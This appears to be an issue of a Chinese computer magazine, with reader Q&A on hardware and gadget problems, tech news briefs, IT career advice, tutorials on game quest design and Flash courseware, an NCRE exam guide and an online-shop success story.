答：显然，过热的原因在于双显卡间独立显卡的驱动没有正确安装造成的。双显卡在不安装好各自的驱动程序时，二者等于都处于工作状态，并且，独立显卡此时并不接受Windows 7的电源管理，所以一直处于高频运行状态，时间稍长就会出现问题。如果你暂时无法切换到独立显卡，可以重启电脑进入BIOS设置，将集成显卡暂时关闭，待安装好HD4330的催化剂驱动程序后，再开启集成显卡，就能实现二者无缝切换了。

## 新买的OPPO行货手机，不到一星期就出现了比较严重的短信延迟现象，一般都是20分钟左右，怎么办？

答：既然是新手机，质量一般不会出现问题，可以去客服检测。也不排除网络拥堵的问题，用手机拨打对方的号码，不必接通，这样做等于打通了双方之间的信息通道，如果是网络的问题，过一会就能看到短信发送成功的报告，可以换上其他SIM卡用替换法确定是不是手机有缺陷。

## 三星蓝调NV106HD的充电器丢了，有个MP3也是跟那种充电器差不多，能否代替相机的充电器呢？会不会对相机造成伤害？

答：最好不要通用，很多山寨MP3充电器的设计标准不能保证稳定的电流输出，看充电器上的输出(output)电压、电流是否符合相机标准，如果一样的话可以救急使用。长期充电建议购买原装充电器，便宜的组装充电器很多是高仿山寨造。

## 12倍光变+28mm广角端和5倍光变+24mm广角端，哪一个的综合效果强呢？

答：拍远景用的是长焦端，12倍光变肯定要比5倍占优势。如果看重广角性能，24mm与28mm差距并不大，拍摄画面略微宽广些，效果不明显，不能作为选择的主要参考，反而12倍光变在出游时更能发挥优势，更适合家庭应用，要注意的是12倍光变搭配三脚架效果更好。

## 昂达VX575HD打不开了，连着电脑有反应，充电状态下也能使用，连接线一拔就打不开。怎么办？

答：首先复位（捅Reset键）看看，如果不行，可能是物理开关松动、内部的电源拨动键坏了，导致电池充不进去电，外部电源正常使用。也有可能就是MP4的电源管理分配系统出了问题，重新刷一遍固件，最好是去昂达官方网站下载最新的固件，总之不是大问题，多尝试几次就可以了。

## 用单反500D的18-55套头，在室内拍人像时，拍出的照片人物变胖，特别是拍侧身，究竟什么原因引起的？

答：镜头18-55中的18是广角端，55是长焦端，越靠近广角端越容易变形，拍摄的时候距离人物尽量远一点，用长焦端拉近焦距拍摄图片就不容易变形。如果条件有限，可以把相机立起来，镜头与被拍物体要平行，镜头的中心点要落在被拍物体的中心点上，这样产生的失真就会小一点。如果拍出来的图片有变胖的现象，可用Photoshop修正，方法是：打开文件，点“裁剪”，点“透视”这样在一定范围内可以修复。

## 国产的mp4/mp5支持的格式这么丰富，播放flv/rm合不合法？

答：rm版权问题很好解释，生产rm解码芯片的欧洲厂商已经向RealPlayer支付过版权费用，至于要向所有的rm资源收取版权费是不存在的。例如rm格式的文件可以通过AVI等格式转换而来，所以要交版权费用的是制作转换软件的厂商而非每个使用rm资源的个体。

## 请问SD和SDHC卡有什么不同？

答：SD卡最大容量只能是2GB，而SDHC由于使用了FAT32，因此容量可以达到32GB。另外，使用FAT32也使得传输速度有了一定的提升。目前SDHC分Class2、Class4、Class6等不同速度等级，Class后面的数字表示最低传输速率（MB/S），辨别很简单，容量超过2GB的一定是SDHC存储卡。

## 我的N82掉在水里了怎么办？

答：手机掉进水里捞起来就不要再开机立刻把电池拿下来，如果你开机会造成手机内部短路的，电池要立刻用干布擦干，以免短路。如果会拆开手机的话就拆开主板与外壳用干布擦干净，不建议用吹风机吹干，在通风处放置至少一天，如果还不能开机的话可能就要去客服检测了。

## 我的DVI线的插针比正规的少很多，一半都是没有针脚的，请问我需要更换吗？

答：目前18针的简化版接头在市场上很常见，需要标准版接头的用户需留意，它和完整版的差别是，18针属于单通道DVI，传输速率只有24针标准版的一半，两者可支持的分辨率一样，但18针的产品可支持的刷新率要比24针的低一半，如果你的显示器尺寸超过22英寸，那么最好再购买一条。

## 最近听说流行降电压超频，能更省电吗？

答：降压超频，在频率提升不大的情况下，确实可以保证功耗不变甚至还略微降低。但是如果频率提升过多，比如达到了1GHz以上，那么处理器的功耗仍然会变得比默认状态下还高。

## 电脑硬盘会忽然停转，硬盘“嘟”一声无故停了，最明显的表现是硬盘运行起来时快时慢。请问这是怎么回事？

答：一般来说是BIOS设置的问题，很有可能是Power Management Setup（电源管理设置）中的Power Management（电源管理）被设置成MAX Saving（最大省电），这样只要1分钟没有读写硬盘，就会停止供电，进入待机状态。按Del键进入BIOS设置，选择进入Power Management Setup，再进入Power Management，将HDD PowerDown（硬盘断电）项的参数设置为Disabled（关闭），保存退出后就可以解决问题了。

## 我的主板采用的是P35芯片组，只支持PCIE 1.1规格，不知道能否支持新显卡？

答：采用PCIE 2.0接口的显卡并没有改变接口，因此可正常安装在采用PCIE 1.1接口的主板插槽中。虽然PCIE 2.0接口最大可提供16GB/s的数据带宽，但PCI-E 1.1接口所能达到的最大8GB/s带宽，已能满足AMD HD4870×2这样的显卡，只在峰值运行时会有3%的差距，基本可以忽略不计。

## 我的电脑只要进入休眠状态，再唤醒计算机后，为什么就不能正常发声了？

答：建议你启动计算机，按DEL键进入主板BIOS设置，选择Power Management Setup（电源管理设置）选项中的IRQ值设置成Enable（启用），并将Power Management（电源管理）设置成User Define（用户自定义），按F10保存退出主板BIOS设置，问题可以解决。

### NEW TECH IT新技术

### Photosynth（提取三维位置软件）

Photosynth是一款以处理照片为中心的基于BS模式的软件系统，通过核心的图像要素提取分析算法，将大量不同来源、不同视角的相关二维照片处理成为拥有三维属性的立体景象。Photosynth项目开始于一堆数字照片，这些照片是从不同的相机、拍摄环境、日期、时间、分辨率等情况下混合而来的。每张照片经计算机的景象算法处理，提取出很多的特征元素，然后，这些照片的特征会在一个网中被联系起来。当同一个特征在不同的图像中被发现时，它的三维位置就能够被计算出来。这类似于人脑通过两个眼睛看到的图像来感知三维立体位置。

### Antivirus Software（模拟蚂蚁行为的新型杀毒软件）

蚂蚁在共同抵御外敌方面堪称典范，它们能够迅速加强防御力量，击退外敌后又能很快恢复常态。科学家正努力通过对蚂蚁的行为进行深入研究，开发新一代的计算机杀毒软件。一名研究员格林·苏克表示：“我们的构思是部署3000种不同类型的‘数字蚂蚁’，每一种专门搜寻来自特定病毒的威胁。当它们在网络中巡逻时，会留下数码痕迹，这些痕迹是根据自然界中的‘蚂蚁’用来指引同伴的气味痕迹仿制出的。一旦某只‘数字蚂蚁’识别出病毒存在的证据，它就会依照程序留下更强的气味。强烈的气味痕迹吸引更多的‘蚂蚁’聚集到一起，表明可能有电脑病毒侵入，并立即组织防御。”

### Sensecam（助记器）

Sensecam是微软MyLifeBits计划的主要组成部分，后者是微软研究院发起的一项利用照片、视频等多媒体文件来还原真实记忆的计划。普通的摄像设备一般只能记录在时间上有所间断的几段视频或几张图片，不能比较完整地记录下事件的整个过程和每一个环节。而Sensecam在摄像设备中加入摄像头和传感器，这些传感器能感应人体的发热量和所作出的行动等等参数，系统内同时还安装有微控制器，可以监视各个传感器的信号变化，并以此决定是否要进行拍摄。Sensecam可以被设置成每30秒自动拍摄一张照片的模式，也可以自动根据传感器信号的变化来拍摄图片，以便对记忆起到更好、更细致的还原作用。

### Vikuiti（无需佩戴3D眼镜）

3M公司光学系统分部近日宣称他们研制的一种手持设备备用3D背光薄膜组件Vikuiti，并很快上市销售。据3M公司表示，使用装备这种背光组件的显示屏后，用户无需佩戴3D眼镜即可观赏到3D显示画面。Vikuiti利用了一种照射方向可控制的方向性背光技术Directional Backlight，能将图像的成像焦点左右快速移动，由此形成3D影像。由于与现有背光模组的组成结构非常相似，因此这种组件可以很容易地被集成到液晶面板中，实现3D显示。

### Shielding Program（驾车时自动屏蔽手机危险功能的程序）

TXTBlocker公司近日开发出了一种手机专用程序，这种程序能让用户在驾驶汽车的同时屏蔽手机的短信功能，或只允许进行手机通话。用户可以将各种情况下的安全通话功能列入一个预定义的“安全清单”中，这样在身处这种情况下时，便只有这些选定的手机功能可以使用。这种软件利用手机的运动速度和地理位置来判断手机的主人是否在驾车，之后自动执行。

## 毕业生：我的未来不是梦
### 七大疑问解决IT职业规划难

“职业生涯规划”对大学生来说是个时尚而不时尚的名词，没有引起应有的重视。直到2009年我国高校毕业生人数再创新高——达到610万人，就业率仅为35%（据目前统计），不少企业的招聘计划还因全球金融危机的压力被冻结或缩水，使得今年我国应届毕业生在就业问题上面临着不同以往的难题，IT行业也不例外，就业形势不容乐观。有人认为，对于大学生就业而言，提高自己的就业能力是比较务实的做法，是有效实现个人理想和个人价值的根本所在。因为金融危机将来还会发生，且发生的周期会更短。而要想提高个人的就业能力，就得尽早做一个个人职业生涯规划。

> 《礼记·中庸》有语曰：“凡事预则立，不预则废。”大意是说，不论做什么事，事先要有准备，才能取得成功，不然就会失败。也有人说，计划赶不上变化，规划再好又有什么用呢？岂知世道变化也是有规律可循的，因而应对变化的对策也是有规律可循的。从某种意义上说，职业生涯规划也是应变之学。看看你的问题是不是在下面这七个之中呢？

### 第一个疑问:
走进校门，我对未来的职业应该了解哪些？

对于已经定位要进入IT行业的大学生们来说，个人怎么做职业生涯规划呢？我认为职业规划主要的任务是目标设定和职业通道的设计，并以此为基础，安排学习和工作的计划，为职业目标的实现积累必要的资源和条件。我们先来谈谈目标设定。人生没有明确、具体的职业目标，人就没有努力的方向和努力的动力。而要确定职业目标，先要有“自我认知”和“职业认知”。“自我认知”说白了就是你自己是否了解自己，可以借助多种途径来发掘、分析自己的性格、职业兴趣、职业潜能及职业价值观，判断你是何种取向的人。“职业认知”就是对你未来想从事的行业是否有认识，包括对工作内容、工作环境、所需的教育、训练、进修和升迁机会、工作时间或生活形态的认知。

### 第二个疑问:
求职意向就是“IT业”可以吗？

IT行业是一个大范畴，与IT相关的职业大体分为IT主体职业和IT应用职业。IT主体职业包括软件类、硬件类、网络类、信息系统类、制造类。IT应用职业，包括控制类、应用系统开发类、设计类、商务类、娱乐类、教育类。你首先要把职业目标设定在一个具体的范围内，就拿软件业来说吧，除了兴趣、性格、价值观等因素，你还要考虑你的知识结构和潜能。

### 第三个疑问:
我喜欢玩电脑，但不是计算机专业，有“钱”途吗？

对于非计算机专业的大学生想进入IT行业工作，可以考虑选择软件测试工程师这个职业而不要从事软件开发业。因为没有学过操作系统、编译原理、数据结构、数据库、离散数学、软件设计等专业课程，逻辑思维也和理工科的不一样，开发语言理论积累从头做起很难。开始写代码可以，但是随着技术的积累必然会遇到瓶颈的。而软件测试工作的技术门槛不高，软件测试工程师从事协调管理岗位的较多，对于沟通能力、管理能力有一定的要求，而文科类学生在这些方面往往更加擅长。一些大规模的软件外包企业通常不会招收计算机专业的学生做软件测试工作，因为这类人群往往追求更高的薪水，而且稳定性较差，而非计算机专业的学生相对而言则更加务实和稳定。从全球范围的经验看，理工类大专以上学历，文科类本科以上学历（尤其是外语、金融和经济管理类专业）的学生，是软件测试工程师的重要人员构成。

### 第四个疑问:
我是学理工科的，以后找工作的时候应该注意些什么？

而对于计算机或与计算机相关的专业，如数学、物理等理工科专业的学生，进入软件开发业会相对容易些。毕竟经过了四年的理论基础及逻辑思维的熏陶，学习能力相对要强一些。作为程序员，学习能力也是很重要的。如果学习能力、创新意识不强，职业生涯是很短暂的。

### 第五个疑问:
我喜欢的职业，能赚钱的行业，我能胜任的工作，这几样我到底如何选择呢？

除了考虑个人志趣、职业能力等因素外，个人做职业规划还要考虑市场需求。即所谓的“行业环境认知”。行业环境主要包括行业发展状况、行业优势及问题、行业发展前景等。行业认知可以帮助个人选择有发展前景的行业和职业。以上问题的交叉点就是一个比较理想的职业定位，即著名的“职业规划三圈理论”：职业定位是职业生涯规划的第一步也是最重要的一步，如果选择的职业与你自己的志趣、能力吻合，那么在别人看来如此枯燥的工作在你看来却是无与伦比的丰富多彩、趣味无穷，就会产生一种动力无限的感觉，就像装有光动能电池的电子手表一样，自动运转、自动钻研，甚至有时能达到痴迷的程度。如果相反的话，这个人的工作始终就是被动的，领导让干多少，就干多少，一点也不想多干。因为你对工作不感兴趣，干工作只是为了完成任务。一切工作都是应付的，“应付”当然是不会有好业绩的，更不会有成功的人生。

### 第六个疑问:
只有大专水平,是不是就没有好机会了？

这里给你举个真实的案例：上海的杨青虽然起点不高，只是个大专毕业生，但从没多少年就成为月薪过万的白领队伍中的一员。他的职业生涯道路很简单也很成功。他从小酷爱玩电脑，以致影响了学业，高考只考上了上海某所高等职业技术学院。但他很早就定位于IT行业，尽管只有大专学历，酷爱编程的他早就通过自学达到了程序员的水平，在校期间就开始为企业开发软件。虽然毕业还有一年，他的身影就经常出现在各个IT公司的招聘会场。通过招聘会，他不仅实地了解了公司的情况、文化，更重要的是熟悉公司的招聘程序，了解公司需要什么样的人才，知道自己的优势和不足，可以更早地对症下药。凭着出色的专业能力和面试技巧，杨青拿到了两家IT公司的职位。经过平衡各种条件，他选择了一家待遇更低但拥有更大技术优势和发展潜力的公司。杨青在公司从事的是软件开发工作，在公司的工作并不如想象中那样富有激情和创造力，甚至有些枯燥，加上IT业工作压力大、强度高，很多人在工作不久就因各种原因离开了公司。虽然杨青起点低，工作更艰难，但他没有退缩，除了努力适应公司文化，在工作中调整自己的心态，他更重视锻炼自己应对压力的能力。业余时间，他还自学英语，努力提高自己的英语水平，并主动兼做技术翻译工作。技术翻译工作也使他有更多机会接触到最前沿的技术动态，使自身的业务水平和知识能力得到了很大的提高。随后，他结合自己的营销学知识以及良好的外语沟通能力、技术积累，给自己下一步的定位是到公司的海外部从事技术服务工作，从单纯的内部技术支持到外部技术营销、技术服务。如今，他在公司的海外部得到了更大的发展空间。杨青是幸运的，很早就找到了自己的职业方向，并一直努力和积累着，所以他容易成功。有时，先飞的鸟反而是更聪明的鸟。

### 第七个疑问:
我选的专业让我自己都很困惑，我应该怎么办？

今年，大学毕业生及在校大学生人数成倍增长，很多人对自己的未来很迷茫，不了解自己，也不了解职场环境。如今年五月我和李廷海先生（职业生涯规划专家/爱未来教育集团首席职业顾问）在上海接待了来自同济大学、上海医疗器械专科学校、上海应用技术学院的八位同学的咨询。这八位同学都自述对我、对职场环境很不了解，感到很迷茫。如其中一位数学专业的女生，性格温和、内向、不自信。她自述感觉各方面能力不足，没有一技之长，不知道数学系毕业后能从事什么行业的工作。受大环境的影响，对未来职业生涯感到焦虑，想做一些准备，却不知从何做起。另一位男生来自甘肃省，学的是计算机专业，高中填报志愿时，没有明确的方向，对计算机专业不是很了解，只知道是热门专业。由于计算机基础知识薄弱，来到同济大学后，感觉学计算机专业很困难。想改专业，但不知道要改什么专业，也很担心代价太高。他对人生有追求，希望自己将来事业有建树，但到了重点大学后，感觉各方面不行，有焦虑、困惑。其他几位同学都遇到类似的问题，他们几位属于典型的职业定位困难型。后来经过一系列的辅导工作，他们都逐渐找到了自己的职业方向。上述两位同学分别把职业目标锁定在软件开发和IT应用职业的教育方向。

### 小编有话说：

在小编接触到的大学生中，不少人的技术很强，但缺的是工作经验，少的是自我推销的方法，结果一毕业就成了“傻大个儿”，就像空有一身内功，但不知如何使用，所以我们会用四期来说说学“IT”的怎样才能找到工作。（上海曹杨职业技术学校/爱未来教育集团资深培训师 袁紫燕）

## NEW TECH IT新技术

### Fiberringdownsensor (光学压力传感器)

美国科学家研发出一种可以在极端条件下使用的新型光学压力传感器，这种光纤传感器可以测量高达1800万帕的压力，并且，将感测头放进-196℃的液态氮中或者加热到538℃，性能也不会有明显改变。这种传感器是由2个相同的2×1光纤耦合器和一种标准单模光纤连接构成的65m的长回路。研究人员将一个波长1650nm的脉冲经由一个耦合器射入回路中，该脉冲每在环内绕行一圈，强度就会略微减弱，其衰减时间及强度由另一个耦合器连续加以监控。实验中对一段8mm长的该新型光学压力传感器施加重量的结果显示，可以测量高达1800万帕的压力。如果把保护层去掉，虽会降低它的感测范围，可是能增加其灵敏度。

### C-THRU (提速软件)

专家预言，对于因特网宽带的需求已经以每年60%的速度增长，因而有可能最早会在2010年供不应求。在位于英格兰南部布莱顿附近的苏塞克斯大学创新中心的一家新兴公司—Bubblephone里，由英国软件研究公司C-THRU开发的软件现在已经处于最后的生产阶段。C-THRU声称其在运行的任何时段都具有巨大的潜力—提供强劲的因特网检索服务，如streaming TV及金融交易。它通过不断检测因特网连接，然后调整自身来保持经常开放最佳的可能连接来工作。用户对这一点可能不知道，他们所体验的是完美的、稳固的连接。C-THRU在运行中的自我调节还使其能够连接之前不能彼此交流的不同计算机系统。有了合适的支持，C-THRU将在一年内投产，而这正是专家们预言速度下降开始的时间。

## 设计别人的人生：网游任务策划师

我们观察路上的行人，会发现很少有人一直原地停留的，人们总是或紧或慢地赶着路，因为每个人都会有一个目的地，他需要到达那里。同样在游戏里，你不能让玩家无所事事，需给他们安排一些事情，完成一个个任务，玩家才会在这种不断自我实现中得到乐趣。任务是否有趣，任务能否将玩家环环紧扣，这就要看游戏策划师的功力了。

任务目标：等级100
NPC设置：
- 黄蓉（友）
- 黄药师（对手）
- 洪七公（对手）
- 欧阳锋（敌人）

任务流程：附流程图（见图3）。
任务奖励：金钱（1000）、道具（桃花剑）、密技（石破天惊）
对白设计：
1. 黄蓉：靖哥哥，我倒有个法子，让爹爹和师父既不伤和气，又能决出胜败。
郭靖：蓉妹，什么法子，快快说来。
黄蓉：让爹爹先跟你过招，瞧在第几招上打败你，然后师父再与你过招。若是爹爹用九十九招取胜，而师父用了一百招，那就是爹爹胜了。倘若师父只用九十八招，那就是师父胜了。
郭靖：蓉妹的法子甚好，我去找他们二老商量。
2. 黄药师：靖儿，就按蓉儿的法子来吧，让老叫化子歇一会，我先和你斗上三百招。
a. 岳父大人，那就得罪了。（接受选项）
b. 这个，我怎么敢跟岳父大人动手呢。（拒绝选项）
黄药师：好的，过来接招吧。（接受任务后对话）
3. 洪七公：靖儿，没想到你能挡得了黄老邪三百招。师父倒要瞧瞧你的功夫又长进多少。
a. 师父，请了。（接受选项）
b. 师父，我不敢。（拒绝选项）
洪七公：你掌法是我教的，拳脚没甚比头，你用铁箫吧。（接受任务后对话）
……

这些著作涵盖了游戏设计理论、游戏公司历史、社会知识，到经典小说各方面内容。这些书主要回答了以下几个问题：
- 什么是游戏，什么是电子游戏？
- 电子游戏的历史是怎样的？
- 游戏与其他媒介的关系，我们可以从这些媒介中学到什么？
- 人们为什么玩，如何玩游戏？最后，我们又该如何设计与构建游戏？

为了使这篇文章更加一目了然，作者Ernest Adams还根据不同的主题，对这些书作了分门别类，这些主题有：
1. 理论
2. 设计原则
3. 游戏创作
4. 图像设计
5. 音乐/音频
6. 网上社区
7. 游戏史
8. 社会学
9. 人员、项目管理、商业事务
10. 其它媒介与有用的原则
11. 游戏深度背景常识
12. 能启发游戏者思维的经典小说

英文链接：http://tinyurl.com/ca5waj
中文翻译：http://www.yxbns.com/oldschool/BOOKS/1.htm

## 芝麻开门

婷儿：我喜欢玩游戏，并且自认为文笔还不错，所以曾经以为做游戏策划是一件极其简单的事。不过在看了CFan的网游策划系列之后，才发现自己的想法有些幼稚。游戏与小说（甚至戏剧）相比，思考的模式有着很大不同。比如小说可以信马由缰尽情发挥，但是游戏中你必须还要考虑到程序员和美工方面是否可以实现等等。再比如在剧情任务设置时，也会有自己独特的方法。为了让玩家能乐此不疲，还要考虑各种平衡等等。看来要成为一个网游策划师，我还有很多东西需要学习。

有风：我从事游戏策划工作也有些年头了，CFan的这个网游策划系列，对初学者来说，确实会有不少的帮助。不过，我要说的是，这个系列充满了理想与乐观主义。事实上，网策是一件非常具有挑战而又非常辛苦的工作。比如，这个系列对网策的分工很明确，但实际上老板们常把策划当成无所不能之人，一人往往身兼数职，加班更是家常便饭。而且现在国内，网游策划的地位没有得到应有的尊重，策划经常要听命于不懂策划的市场运营人员。黑幕还有很多，所以想要入行的朋友，一定要有一颗坚强的心做好准备。

## 任务实战

游戏中的任务，按内容来分，一般有打怪、收集、煅造、探索、对话、送信、护送等几类（及这几类的组合）任务；按重要性来分，有主线任务和支线任务；另外还可分为可重复和不可重复任务、一对一和一对多任务等。每个完整的任务应包括“触发→执行→完成”等三大步骤。一个简单的任务流程，则大致如图1所示。

## 实战：无尽任务之华山论剑

直接从小说改编，是游戏策划的一个捷径。因为，小说中的世界观已经成型，不但人设、场景、人物关系等可以从小说中借鉴，甚至小说中的一些情节可以直接改编成游戏中的剧情任务。金庸小说，人物形象丰富多彩，故事情节曲折，再加上武功纷呈、门派齐全，是网游策划们的最爱之一。比如搜狐正在热推的《天龙八部》、《鹿鼎记》等。下面我们试着改编金庸的《射雕英雄传》，其中“华山论剑”一章的原文可参考：http://blog.cfan.com.cn/html/02/11702-527202.html。因为是演示，多有不够周密之处，仅供参考。

任务名称：华山论剑
任务前提：完成之前的主线任务
任务描述：玩家扮演的郭靖，打败黄药师、洪七公、欧阳锋，夺“天下第一”称号。

## 制作任务流程图

网游策划中的任务流程图，可以用画图、Photoshop甚至Word等软件来制作。不过大多数网游策划师更爱用微软Visio来制作。
启动Visio后，点击左侧“流程图”，再在右侧点选“基本流程图”模板，然后单击“创建”（见图2），新建一个绘图。流程图的开始和结束，一般都用圆角矩形来表示，这里从左侧拖动“终结符”（圆角矩形）到页面上，双击此图形即可编辑修改文字输入“开始”字样。流程中对事件的描述一般用矩形。从左侧拖动“流程”（矩形）到页面上；双击后输入文字，如“与黄蓉对话”，可以任意设置字体及大小，也可以调整矩形框的大小和位置。
将光标指向某个图形后，该图形周边会显示四个淡蓝色三角箭头，这是图形的连接点。拖动连接点到另外一个图形上，即会自动画出流程线（带箭头的方向线）。

> 小提示：
> 在左侧点选某个形状后，再在页面中点击某个图形的连接点，即会自动在该连接点一侧绘制出所选的图形，并且自动添加上连接线。

任务流程中，一般用棱形来表示选择。从左侧拖动“判定”（棱形）到页面上，双击输入文字，如“选择是否与黄药师战斗”。然后在判定棱形的上方和下方分别添加一个矩形，一个是选择拒绝战斗时导致的结束对话，一个是选择战斗时进入战斗场景。可以从棱形两侧分别引连接线与矩形框连接。双击连接线，还可以为它添加注释，如“是”、“否”等（见图3）。接下来的操作步骤大同小异，这里就不赘述了。

## 高手论道

游戏从业者必读的五十本书 (50 Books For Everyone In the Game Industry)
这篇文章从一名游戏设计师与游戏作者的角度，选出了游戏从业人员必读的50本书籍。

## 结束语

网游策划系列，到本期就告一段落了。在这一系列中，从系统、数值、剧情到任务、关卡，几乎涉及到网游策划的方方面面，每一讲我们都提供了实战演练，以便朋友们能更加感性地认识这一行业。不过，在深入游戏策划行业之后，我们会发现其中的“水”很深，不但要上知天文地理下晓风土人情，还要对美术、编程有所了解，方便在游戏开发过程中与团队中的其他成员无缝沟通。另外，游戏策划不能闭门造车，所以也要与市场运营人员有良好的沟通。
总之，前途是光明的，道路是坎坷的。这个系列也许只是你的一个起点，后面的路要靠大家自己多拼搏了。最后，在此特别感谢莲、Leo、王佳伟、腾云、童寅山等朋友对本系列的大力支持。

## 站在网络技术行业的高山上——NCRE四级网络工程师考试解读

在前几期中，本刊邀请教育部考试中心对NCRE考试的体系结构和“三级网络技术”等考试科目进行了解读。“网络”是当前的热点，大家普遍都过了二级，不少人也过了三级（其中网络方面报考的人最多），那么我们前方的目标是什么？可以向四级网络进军！

## NCRE四级网络工程师的考试设计

水平性考试的目的是为了区分出考生的能力，而是根据考生在考试中的表现给出其在相应能力量表上的位置，为用人单位提供相应知识、水平、技能的评价依据。NCRE考试就属于这类考试。
选拔性考试的目的是将不同能力的人严格区分，有一部分试题等同于水平性考试的试题，另外一部分试题则用来做人群区分，就是我们常说的难题、怪题或者偏题。高考、中考等考试就是属于这种。

## 四级网络工程师与三级网络技术关系

三级与四级的关系就像读者学习和工作的关系，学习是为了掌握更多的知识，通过工作可以更好地促进知识的掌握。
在科目的设计上，三级网络技术是四级网络工程师的基础，三级的教材偏重于对网络技术知识能力的考核，而四级则侧重对知识在实践工作的具体应用能。

## 如何备考四级网络工程师考试

看到这里，不少人已经跃跃欲试了吧？那么四级到底考什么呢？
考核内容包括中小型网络规划与设计、网络系统的构建、网络环境与应用系统的安装调试、网络安全技术、网络系统的现场维护与管理等。考生要了解大型网络系统规划、管理方法，具备中小型网络系统规划设计、设计的基本能力，掌握中小型网络系统组建、设备配置调试的基本技术，掌握中小型网络系统现场维护与管理基本技术。考生在丰富网络知识的同时还要注重动手能力的培养，这样才能取得好成绩。

通过二级和三级网络技术的同学们，加油呦！相信你们一定能够取得四级网络工程师的证书，站在网络技术行业更高的岗位上。

## Flash不神秘，手把手教你做课件系列之Flash补间动画与形状，闪闪更精彩

果果：期我们做了一个物理“动能实验”，感受到Flash课件中动画的神奇，本期就以一个“投射与视图”中的“三视图”为例，继续我们的Flash课件之旅—补间动画（本例在线演示地址http://022w.net/flash/sort01/sort020/show-42.html，源文件下载地址http://022w.net/soft/sort013/sort014/down-11.html）。在本例的立方体中，三组箭头代表光线运动方向指向三个面，随后三个面闪烁起来，这个效果是如何实现的呢？

### 小知识：

做Flash动画时，在两个关键帧中间设置“补间动画”，能实现图画的运动。补间动画分两类：一类是补间形状，用于形状的动画；另一类是补间动画，用于图形及元件的动画，补间动画主要用于图形元件或影片剪辑的位置或者大小、透明度的变化，没有颜色的变化；形状补间主要用于图形（手绘或调用的矢量图形）的位置或者大小、颜色的变化，它们在课件中的应用都非常广泛。美术、英语、语文等课件中，凡是重点强调的部分都可以进行闪烁强调处理：重点部分一闪一闪的，学生的注意力更加集中，对知识点的记忆更加深刻。

### 基础篇：获得立方体和箭头

### 简单做法：

用截图软件直接截取素材，转化成元件，利用补间动画和透明度控制实现最终效果。这个做法速度快，但是素材会产生失真；精细做法步骤多一些，但

### 精细做法：

首先导入（Ctrl+R）事先准备好的jpg图片素材，可以直接从人教网站下载，也可以通过教材进行扫描。准备基本的矢量素材，这里要先调出标尺，进入“视图→标尺”，用鼠标拖出“辅助线”紧贴主背景边缘，目的是导入的图片大于主背景时，可以准确知道要绘制的对象的位置，也可以调出“变形”（Ctrl+T），调整导入的图片大小。

下面就是锁定当前图层，新建一个图层，在新图层用“线条工具”结合“文本工具”做出需要的矢量图部分，绘图过程要用到“缩放工具”（快捷键是M/Z），同时可以通过放大缩放进行切换，利用“填充变形工具”进行颜色填充和效果渲染。

投影物和投影线不在同一层，需要把前面绘制的矢量素材放到单独层里面，然后调整它们的先后顺序，补齐相关数字和辅助线。

现在绘制出的静态矢量图就是我们最后看到的结果，先选中所有帧，把已绘制好的矢量图调整到舞台正中，再用我们上期提到的“补间动画”制作出投影线的动画效果。

### 进阶篇：让投影面闪烁，配上文字和按钮

通过动画补间，立方体的光线指向了投影面，如何让投影面闪烁呢？主视图、左视图、俯视图我们已经转化为元件了，现在单击主视图，对其进行编辑。

在第15帧（F6）插入关键帧，并把图形的颜色调整成“#00FFFF”，也可以是其他帧、其他颜色。点中第一帧，选择“属性”里的“补间形状”，其他参数默认，保存，运行（Ctrl+Enter）看一下效果。同理设置左视图、俯视图，投影后的投影就呈现闪烁效果了！

图形主体做好了，总感觉缺什么，再来些说明文字和演示按钮吧！

首先把课件配图文字（本例为相关的概念和定义）在适当的地方展示出来。在图层按钮下面加一层，命名为“定义”，录入主视图、左视图、俯视图的定义文字，转化为新影片剪辑命名为“定义”，实例名称“dy”，再制作一个透明按钮：新建按钮元件，在按钮元件的“点击”帧插入空白帧，画一个矩形，一个透明按钮就做好了。最后加代码：

```
on (release) {
    this.dy.gotoAndPlay(2); //当前层实例名为“dy”的元件，跳转到第二帧并播放。
}
```

以上起到提纲挈领的作用，课件的开篇和结尾技巧我们会随后的文章中与大家分享。

> 小提示：
> 通过询问动画、补间形状的有效结合，可以简化一些原本复杂的操作。一次我做一个英语课件，实现的效果是用编程来控制顺排8个单词的颜色变化和读音，最开始我把8个元件分别实例化命名，编了很多程序来调用，实现了后静下心来一想，其实用补间动画、补间形状相结合，再加上按钮就可以完成。

## 一月冲钻不是梦，农家女开特产网店的秘密

有一位住在山西吕梁山区的农家女叫做“黄河枣花”，初中学历的她原来连电脑都不会用，最近开了一个充满乡土气息的网店，一个多月居然得到了许多人羡慕的钻石信誉，听起来像天方夜谭吗？这可是真实的故事！

### 店铺成长史：

- 2009年3月17日申请小店
- 3月28日枣花的生日，经过十几天辛苦准备，“庄户人家特产店”（http://shop57504843.taobao.com）正式开业。
- 3月29日迎来第一笔生意，随后开始冷清，枣花就拜访淘友，泡在论坛学习推广的方法。
- 4月1日第一篇帖子《老公同时爱着三个女人，我该不该和他离婚？》（其实是指母亲、老婆、女儿）被管理员加精，并且上了论坛首页，但是销量并不明显，于是枣花继续努力写帖子。
- 4月20日另一篇帖子被编辑推荐至顶，店铺浏览量飞速上涨，每天成交生意几笔。
- 4月28日参加创业先锋第二期选拔赛的帖子《70后农家女，一碗小米粥打造淘宝第一文化型店铺》出现在淘宝论坛首页的“今日专题”里，小店再次受到关注，不称为钻石卖家。

### 枣花飘香网店开

34岁的枣花当过山村代课老师，开过裁缝店，卖过手机，当过超市导购员，还开过服装店，因为过度劳累，去年整整一年与药物为伴，病好后朋友建议枣花开个网店。

卖什么呢？枣花绞尽脑汁想了好几天，做饭时忽然看到从老家带来的小米，灵机一动，不如就卖这些特产！二哥很支持：“哥在村里给你找最好的货源，都是乡亲们自己家产的，不打农药，也不上化肥，让城里人尝个鲜！”这番话，让枣花开店信心倍增。

货源定位好了，枣花开始注册名字。黄土人家、枣妞妞、晋商、红枣西施……都不好，干脆叫黄河枣花吧，亲切又上口！“开网店我要像枣树上开的枣花，虽然不起眼，却把累累硕果送给人们！”

### 店铺装修乡土风

货源有了，小店也申请了，接下来的店铺美化怎么才能突出个性呢？枣花用家里的窑洞做招牌，欢# 速成数据恢复工程师：数据恢复基础

当今社会，计算机在我们的日常生活和工作中起着举足轻重的作用，我们许多的工作成果也以数据的形式存储在各种磁盘上，如硬盘、闪盘等。一旦磁盘上的数据损坏，有时损失是难以用金钱来衡量的。可见计算机数据的重要性，也因此，催生了数据恢复这一市场的发展。本系列，我们就将给大家介绍一些数据恢复的理论知识及实战，希望能给大家在就业或创业方面提供一些帮助。

# 业界探幽

